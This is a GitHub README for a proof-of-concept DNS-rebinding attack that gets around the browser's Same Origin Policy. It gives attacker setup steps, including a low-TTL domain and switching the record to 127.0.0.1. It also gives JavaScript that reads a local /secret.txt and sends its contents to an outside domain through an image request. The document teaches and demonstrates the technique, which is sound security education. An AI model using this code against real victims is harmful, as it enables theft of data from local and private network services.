 # Bypass Same Origin Policy - BY-SOP

Bypass Same Origin Policy with DNS-rebinding to retrieve local server file.

**EDIT 15/01/2018:** [@taviso](https://twitter.com/taviso) open a [pull a request](https://github.com/transmission/transmission/pull/468) to fix a security issue (Remote Code Execution on Transmission) using this vulnerability. I think it's cool to have an real example on how hacker can use this attack :)

**Goal** : retrieve a file on a private server http://127.0.0.1/secret.txt 
This normaly should by impossible due to [Same Origin Policy](https://en.wikipedia.org/wiki/Same-origin_policy) but we will use [DNS-rebinding](https://en.wikipedia.org/wiki/DNS_rebinding) attack to bypass the SOP and retrieve the file.

> This attack can be used to breach a private network by causing the victim's web browser to access machines at private IP addresses and returning the results to the attacker.

**Important** : use the same port, `127.0.0.1` is different from `127.0.0.1:8080`, same with https (check this [example](https://developer.mozilla.org/fr/docs/Web/JavaScript/Same_origin_policy_for_JavaScript))

### Victim:

- visit the malicious page for at least ~2-3 minutes (playing flash game, fill a form etc)

### Attacker:
    
* attacker setup a domain with the lowest TTL (60 second, 120 for CloudFlare )
* one the victim visit the malicious page, he changes the dns IP of the domain with the local ip targeted

    - before `foo.domain.com. 59  IN  A   5.135.66.45`
    - after  `foo.domain.com. 59  IN  A   127.0.0.1`

    Since the `TTL` is very short, the attacker will make another request to retrieve the private file **AFTER** the `TTL` time is up (> 59), the request has to do an additional DNS request

    ```javascript
    setTimeout(function SOP_bypass() {
        $.get('/secret.txt', function(data) {
            // action with data
        });
    }, 180000); //3min to be sure
    ```

    However, by changing the DNS record in the meantime, the domain will resolve to the victim page with the local IP.
        There is no more Same Origin Policy and we can retrieve the content of the file.

* the content is send to another domain to save the data
    ```javascript
    setTimeout(function SOP_bypass() {
        $.get('/secret.txt', function(data) {
            // action with data
            var image = new Image();
            image.src='http://domain.com/save.php?'+data;
        });
    }, 180000); //3min to be sure
    ```

    The file `save.php` don't need to allow Cross-origin resource sharing (CORS) from 127.0.0.1:80 to accept the request. In fact, img are incompatible with SOP. 
    But if you really want an execption, in PHP it can be done by adding this line `header("Access-Control-Allow-Origin: *.domain.com");`


* finally we have:
    ```bash
        cat save.txt
        {"WIN{AweSome_ByPass_SOP}":""}
    ```

## Setup

* Use the file `malicious.html`, the file `bypass_sop.html` is the same but more for academic comprehension.

* Add a subdomain with TTL 59 (120 in Cloudflare)
* Add another subdomain and allow CORS from your domain if you use GET or just use `image.src` to bypass the restriction CORS
* Victim
    - launch a local server `http-server -p 80 Dir`
    - launch the browser
    - go on sub.domain.com/malicious.html
* Change the DNS ip
* Wait
* Get the result into the other subdomain you setup

![BY-SOP](http://mpgn.fr/assets/images/ByP-SOP.jpg)

## Contributor

[mpgn](https://github.com/mpgn) 

## Licences

[licence MIT](https://github.com/mpgn/ByP-SOP/blob/master/LICENSE)

## References

* http://www.ptsecurity.com/download/DNS-rebinding.pdf
* https://www.abortz.net/papers/dns-rebinding.pdf
* https://en.wikipedia.org/wiki/DNS_rebinding
* http://www.circleid.com/posts/070809_defending_networks_dns_rebinding_attacks/
* https://dollberg.xyz/ctf/2016/03/13/0CTF-Monkey-Writeup/
* http://secgroup.github.io/2016/03/14/0ctf-writeup-monkey/
* https://w00tsec.blogspot.fr/2016/03/0ctf-2016-write-up-monkey-web-4.html

